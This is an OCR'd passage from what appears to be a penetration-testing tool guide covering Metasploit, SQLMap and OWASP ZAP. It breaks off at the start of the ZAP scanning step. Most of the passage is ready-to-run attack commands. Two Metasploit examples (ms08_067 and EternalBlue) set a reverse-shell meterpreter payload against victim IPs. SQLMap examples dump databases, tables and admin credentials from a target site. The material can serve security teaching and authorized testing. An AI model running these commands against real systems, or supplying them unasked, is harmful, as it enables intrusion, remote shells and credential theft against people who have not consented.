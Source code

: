 CopyEdit 
search ms08_067 
use exploit/windows/smb/ms08_067_netapi 
set RHOSTS 192.168.1.100 
set PAYLOAD windows/meterpreter/reverse_tcp 
exploit 
Example Attack: Exploiting Windows SMB with EternalBlue 
bash 
CopyEdit 
use exploit/windows/smb/ms17_010_eternalblue 
set RHOST 192.168.1.105 
set LHOST 192.168.1.200 
exploit 
Success: Get a reverse shell on the victim machine. 
3. SQLMap (Automated SQL Injection) 
SQLMap is a powerful SQL Injection tool that automates database exploitation. 
Key Features 
Detects & Exploits SQL Injection 
Extracts Databases, Tables, and Credentials 
Bypasses WAF (Web Application Firewall) 
Supports All Databases (MySQL, MSSQL, PostgreSQL, Oracle, SQLite) 
Installation (Kali Linux) 
bash 
CopyEdit 
sudo apt update 
sudo apt install sqlmap 
Usage 
1. Scan a Target Website for SQL Injection 
bash 
CopyEdit 
sqlmap -u "http://target.com/index.php?id=1" --dbs 
2. Extract Database Tables 
bash 
CopyEdit 
sqlmap -u "http://target.com/index.php?id=1" -D users --tables 
3. Dump User Credentials 
bash 
CopyEdit 
sqlmap -u "http://target.com/index.php?id=1" -D users -T credentials --dump 
Example Attack: Extracting Admin Credentials 
bash 
CopyEdit 
sqlmap -u "http://target.com/login.php?user=admin" --dump 
Success: Dumps the admin’s hashed password. 
4. ZAP (Zed Attack Proxy) (Web Vulnerability Scanner) 
OWASP ZAP is a powerful open-source web security scanner used for automated and 
manual penetration testing. 
Key Features 
Automated Scanning for OWASP Top 10 Issues 
Intercept & Modify HTTP Requests 
Spidering & Fuzzing 
WebSockets Testing 
Installation (Kali Linux) 
bash 
CopyEdit 
sudo apt install zaproxy 
Usage 
1. Run ZAP Proxy 
bash 
CopyEdit 
zap.sh 
2. Scan a Web Application 
bash 
CopyEdit 
